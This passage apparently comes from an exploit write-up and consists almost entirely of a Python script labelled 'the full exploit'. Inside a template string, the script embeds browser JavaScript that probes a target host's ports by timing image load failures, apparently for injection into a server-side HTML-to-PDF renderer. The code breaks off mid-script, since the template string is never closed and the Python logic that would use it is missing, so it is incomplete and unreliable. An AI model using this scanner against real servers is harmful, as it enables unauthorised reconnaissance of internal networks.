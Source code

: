 Here's the full exploit:

```python  
#!/usr/bin/env python3

import requests  
import re  
from PyPDF2 import PdfReader

template = """  
<script>  
// Author: Nikolai Tschacher  
// tested on Chrome v86 on Ubuntu 18.04  
var portIsOpen = function(hostToScan, portToScan, N) {  
 return new Promise((resolve, reject) => {  
   var portIsOpen = 'unknown';

   var timePortImage = function(port) {  
     return new Promise((resolve, reject) => {  
       var t0 = performance.now()  
       // a random appendix to the URL to prevent caching  
       var random = Math.random().toString().replace('0.', '').slice(0, 7)  
       var img = new Image;

       img.onerror = function() {  
         var elapsed = (performance.now() - t0)  
         // close the socket before we return  
         resolve(parseFloat(elapsed.toFixed(3)))  
       }

       img.src = "http://" + hostToScan + ":" + port + '/' + random + '.png'  
     })  
   }

   const portClosed = 37857; // let's hope it's closed :D

   (async () => {  
     var timingsOpen = [];  
     var timingsClosed = [];  
     for (var i = 0; i < N; i++) {  
       timingsOpen.push(await timePortImage(portToScan))  
       timingsClosed.push(await timePortImage(portClosed))  
     }

     var sum = (arr) => arr.reduce((a, b) => a + b);  
     var sumOpen = sum(timingsOpen);  
     var sumClosed = sum(timingsClosed);  
     var test1 = sumOpen >= (sumClosed * 1.3);  
     var test2 = false;

     var m = 0;  
     for (var i = 0; i <= N; i++) {  
       if (timingsOpen[i] > timingsClosed[i]) {  
         m++;  
       }  
     }  
     // 80% of timings of open port must be larger than closed ports  
     test2 = (m >= Math.floor(0.8 * N));

     portIsOpen = test1 && test2;  
     resolve([portIsOpen, m, sumOpen, sumClosed]);  
   })();  
 });  
}
```